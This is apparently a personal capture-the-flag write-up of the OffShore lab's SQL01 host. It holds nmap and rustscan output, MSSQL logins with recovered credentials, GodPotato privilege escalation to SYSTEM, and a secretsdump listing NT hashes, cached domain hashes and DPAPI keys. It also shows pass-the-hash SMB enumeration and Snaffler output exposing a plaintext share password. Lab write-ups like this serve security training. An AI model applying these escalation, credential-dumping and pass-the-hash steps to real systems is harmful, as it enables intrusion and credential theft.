



As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 64 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info: 
|   172.16.1.15:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-07-01T03:33:19
| Not valid after:  2054-07-01T03:33:19
| MD5:   7ad0:98c2:d91f:30c4:b78c:aa4c:eea4:bf7a
| SHA-1: de07:6b25:24c6:23fe:a7c4:47f2:8311:df94:488c:aa2c
| -----BEGIN CERTIFICATE-----
| MIIB+zCCAWSgAwIBAgIQOGouEN67patEFZNXZgUvOzANBgkqhkiG9w0BAQUFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNzAxMDMzMzE5WhgPMjA1NDA3MDEwMzMzMTlaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCBnzANBgkqhkiG9w0BAQEFAAOBjQAwgYkCgYEA1qpp9aUduCYS
| hlx+paMnX8A/LEC3h1cQUqUFDZna+fEv+JSyU8d50NL/zUIowT4H2PDg2pn+4yaz
| 3JRIPjK3wjjxfNkoFVpBiWVe3OiSU/2KhdxF189jc9W3vUJb8yWB002Hb6TqAlgy
| DzX8Hsx7N/zJjFjYodMceognBBJphpECAwEAATANBgkqhkiG9w0BAQUFAAOBgQDR
| FHRcDIz6sMqvcaSXLjkabd6awEMOcNL6nnF81ZMKU/TrMwiA3FNzgKb28Bs5fSdP
| YlVhpr4JVu96Ap3DbeLNO40NNfICUKJz8YTr0VyySItwmZP3orq9rjyFFhtQT8uQ
| fZDG4nXBVKKNpuoI0s5CJ4yMYORv1e/8HICock3OpA==
|_-----END CERTIFICATE-----
| ms-sql-ntlm-info: 
|   172.16.1.15:1433: 
|     Target_Name: CORP
|     NetBIOS_Domain_Name: CORP
|     NetBIOS_Computer_Name: SQL01
|     DNS_Domain_Name: corp.local
|     DNS_Computer_Name: SQL01.corp.local
|     DNS_Tree_Name: corp.local
|_    Product_Version: 10.0.14393
|_ssl-date: 2024-07-01T10:15:12+00:00; +2s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-07-01T10:15:12+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=SQL01.corp.local
| Issuer: commonName=SQL01.corp.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-30T03:32:59
| Not valid after:  2024-12-30T03:32:59
| MD5:   2518:d809:0627:7fc0:7cae:7f69:5474:0aa9
| SHA-1: 7d17:2296:5b26:8786:e7bb:c3ed:f8bd:d46f:cfea:674b
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQPMGUZ6HkgYJCDr7Vth/C3jANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBTUUwwMS5jb3JwLmxvY2FsMB4XDTI0MDYzMDAzMzI1OVoXDTI0
| MTIzMDAzMzI1OVowGzEZMBcGA1UEAxMQU1FMMDEuY29ycC5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAL587LBG5/A/y4FO4ixsfNaJOLRK0Wj5
| dvDnFLHosHHdGuXZgrECoI8PZaFnB7lofjL5wwwC6ToyTGjsXrgPLCL/VP7pN8mB
| IV3m6nywJy0UMXffZMJe4MqlgOrcPBwhQiT0/dUJPTBwZ12PLOAbNdyU7ut7486S
| FZtrXwywejULza54ya7SfuhPhtbWJFOSx0EBUWT2KgaNtaJ4P526OmAFj+7RUWhx
| CSt9n7HMVyNjcc+Tax0tgOgwQS0LKROe2LlHajvdRy5rwQr6S+2eKiVoYCdMZilK
| /ER915zvqbgxGchTTiFRYl9R/kZezcH/JHc5G1dlKlYmRkOi1e4B6bECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQCDVEdia27MxxHozFXLB3ZtQUN7UsaVEtcU3xCXHbXBFaPPiI5eW9oG
| Hq809Pva176cT+fQ8TnCiCB6rM/qZvM4hjibC5+qIl5dfKLYZiRRVrxNUe09Z7y7
| Rn70vWXl1Ac+GzEZIW1ZO82qRVi3jlp9VIxnwukvkvtj0p/8mC1KqYSKCKa9ChI5
| xx3a9J+Z+I/1LluXcWgen385c72OV1YD30QCSvG/nC33A6fnF5qFtAr0Scr0QPOz
| Je7UgL7fFsnSiKI0HqCHlEfMHKM50WfoHlnkzFuiFz4C1bWucciKlaPzHwLdHWXM
| 9hKO+S3NC95zacLn2cPW1f6b33Se6OgR
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: SQL01
|   DNS_Domain_Name: corp.local
|   DNS_Computer_Name: SQL01.corp.local
|   DNS_Tree_Name: corp.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-07-01T10:15:01+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=135%CT=%CU=%PV=Y%G=N%TM=668281AE%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10C%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.15
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:08 CEST
Nmap scan report for 172.16.1.15
Host is up (0.000075s latency).
All 100 scanned ports on 172.16.1.15 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds
```

&nbsp;

# Attacking the MSSQL

I was curios to test the credentials found in the Excell file on the MS01 server and seems like they works, showing like he is ADMIN on the server?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec mssql 172.16.1.15 -u 'NED.FLANDERS_ADM' -p 'Lefthandedyeah!' -d 'corp.local' -M mssql_priv
MSSQL       172.16.1.15     1433   SQL01            [*] Windows 10 / Server 2016 Build 14393 (name:SQL01) (domain:corp.local)
MSSQL       172.16.1.15     1433   SQL01            [+] corp.local\NED.FLANDERS_ADM:Lefthandedyeah! 
MSSQL_PRIV  172.16.1.15     1433   SQL01            [+] CORP\ned.flanders_adm is sysadmin
```

If this is true then we are gucci as we can execute basically everything on the server.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# impacket-mssqlclient CORP/NED.FLANDERS_ADM:'Lefthandedyeah!'@172.16.1.15 -windows-auth 
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL (CORP\ned.flanders_adm  guest@master)>
```

The login works so let's see if I can see some usefull stuff on the DB...

```
SQL (CORP\ned.flanders_adm  guest@master)> SELECT name FROM master.dbo.sysdatabases;
name        
---------   
master      

tempdb      

model       

msdb        

WebApp      

Documents   

Users       

SQL (CORP\ned.flanders_adm  guest@master)>
```

I see some stuff let's see what can we get here and seems like we can't reach any of the custom databases on the DB:

```
ERROR: Line 1: The server principal "CORP\ned.flanders_adm" is not able to access the database "Users" under the current security context.
SQL (CORP\ned.flanders_adm  guest@master)> SELECT * FROM Documents.INFORMATION_SCHEMA.TABLES;
ERROR: Line 1: The server principal "CORP\ned.flanders_adm" is not able to access the database "Documents" under the current security context.
SQL (CORP\ned.flanders_adm  guest@master)> SELECT * FROM WebApp.INFORMATION_SCHEMA.TABLES;
ERROR: Line 1: The server principal "CORP\ned.flanders_adm" is not able to access the database "WebApp" under the current security context.
SQL (CORP\ned.flanders_adm  guest@master)>
```

And also seems like we are not Sysadmins, WTF?

```
SQL (CORP\ned.flanders_adm  guest@master)> enable_xp_cmdshell
ERROR: Line 1: You do not have permission to run the RECONFIGURE statement.
```

I tried to perform a XP_Dirtree but the Hash couln't be cracked unfortunately...



&nbsp;

# Back on track

I just gained a shell as the local NTService that runs the MSSQL on this server via the SQLi on the Soap API, specifically on the `Author` field.

I suspect I can elevate my permissions by jut using `GodPotato.exe`  since my current user holds the `SeImpersonation priviledges`.

```
PS C:\temp> ./GodPotato.exe -cmd "cmd /c C:\temp\sql01.exe"
./GodPotato.exe -cmd "cmd /c C:\temp\sql01.exe"
[*] CombaseModule: 0x140735776882688
[*] DispatchTable: 0x140735778855568
[*] UseProtseqFunction: 0x140735778377968
[*] UseProtseqFunctionParamCount: 5
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\0e0ef94a-43d9-48f8-bf26-7caf88a46fec\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000f802-0dfc-ffff-620d-0184dda5af12
[*] DCOM obj OXID: 0x5b532a6c256f58f6
[*] DCOM obj OID: 0xe354f7a96b985c12
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 824 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 168
```

And we have a **NTSystem** baby...  


And as usual I will perform a LSASS secrets dump via `SAMDUMP` native commando.

```
┌──(root㉿kali-bello)-[/home/…/34a7086c/Download/C:/Temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xc71ab2caf5e3be67bd9f1d7fe11f5582
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
justalocaladmin:1002:aad3b435b51404eeaad3b435b51404ee:819d56c39bd77a24a8cbdacffb71f8a4:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4: (2023-11-13 13:48:18)
CORP.LOCAL/salvador:$DCC2$10240#salvador#2c7d5f080c814582f1268b61cdf09503: (2018-05-13 20:01:53)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:60005c005a007100770028003c004b00210078005000440027004500590070003700700055003a00370025006f002f006a0073006b006c004f00310076002a003c0075002c0061002b00620029005c006b00790068003f0032005600730028003500580056002f00650075005c004b006d003b0035004d004e0078005500770021006b00400049002d006d005100610024002e0051002e006f003c00380030005800410034004e00370023007200580034002b0054006a005c0076002d004d0068004b004d003400350033007a00420061002400470030002a006f0071002d0057003800790044003d0050006e006100
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b40dae2bd88b86bf78ea95ba80f95f33
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x80f9659a3facd5d40127263fc13e68769646cf9b
dpapi_userkey:0xe40651033ffe237ba548e9f2e2a83065ddff176d
[*] NL$KM 
 0000   99 4F 5D 6C 55 B9 EC B5  0C 0B D8 75 A2 88 93 E4   .O]lU......u....
 0010   C0 D9 EF C5 0D B9 40 57  92 39 9A BE 9D A5 83 ED   ......@W.9......
 0020   11 CB 71 7C AB 32 CD 11  FD 7A ED 2E AB BE F1 62   ..q|.2...z.....b
 0030   58 F2 1D 8A AC 9F AC FB  32 17 D8 EE B3 BD A5 DC   X.......2.......
NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
[*] Cleaning up...
```

Surprisingly I don't see anything juicy here. But then i will grab another flag:

```
[*] Changed directory: Administrator/Desktop
 Directory of C:\users\Administrator\Desktop\*:

07/03/2018  12:30           282 B          desktop.ini
29/04/2018  03:15           22 B           flag.txt
               2 File(s)     304 B
               0 Folder(s)

02/07/2024 13:09:15 [yovecio] Demon » powershell "cat flag.txt"
[*] [0E18F674] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [188 bytes]
[+] Received Output [24 bytes]:
OFFSHORE{hmm_p0tato3s}
```

&nbsp;

# POST Exploitation

So far I wasn't able to find some juicy information on this machine that could let me gain access to more stuff so i will start to pillage this server for more information and apparently we can see traces of an old link to the FS01?

```
PS > net use
New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
Unavailable  Z:        \\fs01\users\bill\documents
                                                Microsoft Windows Network
The command completed successfully.
```

So using the NTLM hash of the computer object seems like I can read the user share folder?

```
──(root㉿kali-bello)-[/home/…/34a7086c/Download/C:/Temp]
└─# NetExec smb 172.16.1.26 -u 'SQL01$' -H b40dae2bd88b86bf78ea95ba80f95f33 --shares
SMB         172.16.1.26     445    FS01             [*] Windows Server 2016 Standard 14393 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:True)
SMB         172.16.1.26     445    FS01             [+] corp.local\SQL01$:b40dae2bd88b86bf78ea95ba80f95f33 
SMB         172.16.1.26     445    FS01             [*] Enumerated shares
SMB         172.16.1.26     445    FS01             Share           Permissions     Remark
SMB         172.16.1.26     445    FS01             -----           -----------     ------
SMB         172.16.1.26     445    FS01             ADMIN$                          Remote Admin
SMB         172.16.1.26     445    FS01             C$                              Default share
SMB         172.16.1.26     445    FS01             IPC$                            Remote IPC
SMB         172.16.1.26     445    FS01             Users           READ
```

The tips I got is to try using Snaffler.exe:

```
./snaffler.exe -s -o snaffler.log

 .::::::.:::.    :::.  :::.    .-:::::'.-:::::':::    .,:::::: :::::::..   
;;;`    ``;;;;,  `;;;  ;;`;;   ;;;'''' ;;;'''' ;;;    ;;;;'''' ;;;;``;;;;  
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[     [[cccc   [[[,/[[['  
  '''    $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$'     $$""   $$$$$$c    
 88b    dP 888    Y88 888   888,888     888   o88oo,.__888oo,__ 888b '88bo,
  'YMmMY'  MMM     YM YMM   ''` 'MM,    'MM,  ''''YUMMM''''YUMMMMMMM   'W' 
                         by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler  


[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:48Z [Info] Parsing args...
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:50Z [Info] Parsed args successfully.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:51Z [Info] Invoking DFS Discovery because no ComputerTargets or PathTargets were specified
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:51Z [Info] Getting DFS paths from AD.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Found 0 DFS Shares in 0 namespaces.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Invoking full domain computer discovery.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Getting computers from AD.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Got 7 computers from AD.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Starting to look for readable shares...
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Info] Created all sharefinder tasks.
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Black}<\\SQL01.corp.local\ADMIN$>() 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Green}<\\SQL01.corp.local\ADMIN$>(R) Remote Admin
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Black}<\\SQL01.corp.local\C$>() 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Green}<\\SQL01.corp.local\C$>(R) Default share
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Green}<\\FS01.corp.local\Users>(R) 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Green}<\\DC01.corp.local\NETLOGON>(R) Logon server share 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:01:52Z [Share] {Green}<\\DC01.corp.local\SYSVOL>(R) Logon server share 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:46Z [File] {Green}<KeepNameContainsGreen|R|credential|1.3kB|2016-07-16 13:18:58Z>(\\SQL01.corp.local\ADMIN$\ImmersiveControlPanel\Settings\AAA_SystemSettings_SyncSettings_SyncCredentials_Toggle.settingcontent-ms) AAA_SystemSettings_SyncSettings_SyncCredentials_Toggle.settingcontent-ms
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:46Z [File] {Green}<KeepNameContainsGreen|R|passw|1.2kB|2016-07-16 13:18:58Z>(\\SQL01.corp.local\ADMIN$\ImmersiveControlPanel\Settings\AAA_SystemSettings_Users_PINPassword.settingcontent-ms) AAA_SystemSettings_Users_PINPassword.settingcontent-ms
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:46Z [File] {Green}<KeepNameContainsGreen|R|passw|1.2kB|2016-07-16 13:18:57Z>(\\SQL01.corp.local\ADMIN$\ImmersiveControlPanel\Settings\AAA_SystemSettings_Users_ChangePassword.settingcontent-ms) AAA_SystemSettings_Users_ChangePassword.settingcontent-ms
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:46Z [File] {Green}<KeepNameContainsGreen|R|passw|1.2kB|2016-07-16 13:18:58Z>(\\SQL01.corp.local\ADMIN$\ImmersiveControlPanel\Settings\AAA_SystemSettings_Users_PicturePassword.settingcontent-ms) AAA_SystemSettings_Users_PicturePassword.settingcontent-ms
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:48Z [File] {Red}<KeepCmdCredentials|R|net use .{0,300} /user:|89B|2018-04-26 15:55:32Z>(\\SQL01.corp.local\C$\Documents and Settings\Public\Libraries\share.bat) @echo off\nnet use Z: \\fs01\users\bill\documents /user:CORP\bill "I like to map Shares!"
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:02:52Z [File] {Red}<KeepCmdCredentials|R|net use .{0,300} /user:|89B|2018-04-26 15:55:32Z>(\\SQL01.corp.local\C$\Users\Public\Libraries\share.bat) @echo off\nnet use Z: \\fs01\users\bill\documents /user:CORP\bill "I like to map Shares!"
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:09Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2016-07-16 13:19:48Z>(\\SQL01.corp.local\C$\ProgramData\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:16Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2016-07-16 13:19:48Z>(\\SQL01.corp.local\C$\Documents and Settings\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:16Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|6.4kB|2018-03-07 17:30:32Z>(\\SQL01.corp.local\C$\Documents and Settings\Administrator\Local Settings\Microsoft\Internet Explorer\brndlog.bak) .bak
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:17Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|4.2kB|2020-02-03 16:17:23Z>(\\SQL01.corp.local\C$\Documents and Settings\iamtheadministrator\Local Settings\Microsoft\Internet Explorer\brndlog.bak) .bak
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:20Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|40MB|2014-02-21 03:49:54Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Binn\mssqlsystemresource.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Red}<KeepSqlAccountCreation|R|CREATE (USER|LOGIN) .{0,200} (IDENTIFIED BY|WITH PASSWORD)|3.2kB|2014-02-05 05:41:12Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Install\oracleadmin.sql) ion:\ ';\r\nACCEPT\ ReplPassword\ CHAR\ PROMPT\ 'Replication\ user\ passsword:\ '\ HIDE;\r\nACCEPT\ DefaultTableSpace\ CHAR\ DEFAULT\ 'SYSTEM'\ PROMPT\ 'Default\ tablespace:\ ';\r\n\r\n--\ Create\ the\ replication\ user\ account\r\nCREATE\ USER\ &&ReplLogin\ IDENTIFIED\ BY\ &&ReplPassword\ DEFAULT\ TABLESPACE\ &&DefaultTablespace\ QUOTA\ UNLIMITED\ ON\ &&DefaultTablespace;\r\n\r\n--\ It\ is\ recommended\ that\ only\ the\ required\ grants\ be\ granted\ to\ 
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|40MB|2014-02-21 03:49:54Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Template Data\mssqlsystemresource.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|2.2MB|2018-03-23 20:44:20Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Template Data\tempdb.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|2.2MB|2018-03-23 20:44:17Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Template Data\model.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|4MB|2018-03-23 20:44:20Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Template Data\master.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:21Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.mdf$|12.8MB|2018-03-23 20:44:19Z>(\\SQL01.corp.local\C$\Program Files\Microsoft SQL Server\MSSQL12.SQLEXPRESS\MSSQL\Template Data\MSDBData.mdf) .mdf
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:29Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2016-07-16 13:19:48Z>(\\SQL01.corp.local\C$\ProgramData\Application Data\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:30Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|6.4kB|2018-03-07 17:30:32Z>(\\SQL01.corp.local\C$\Users\Administrator\Local Settings\Microsoft\Internet Explorer\brndlog.bak) .bak
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:31Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2016-07-16 13:19:48Z>(\\SQL01.corp.local\C$\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:32Z [File] {Yellow}<KeepDatabaseByExtension|R|^\.bak$|4.2kB|2020-02-03 16:17:23Z>(\\SQL01.corp.local\C$\Users\iamtheadministrator\Local Settings\Microsoft\Internet Explorer\brndlog.bak) .bak
[NT AUTHORITY\SYSTEM@SQL01] 2024-07-02 12:03:34Z [File] {Green}<KeepNameContainsGreen|R|credential|3.3kB|2016-07-16 13:19:48Z>(\\SQL01.corp.local\C$\Documents and Settings\All Users\Application Data\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml) RoamingCredentialSettings.xml
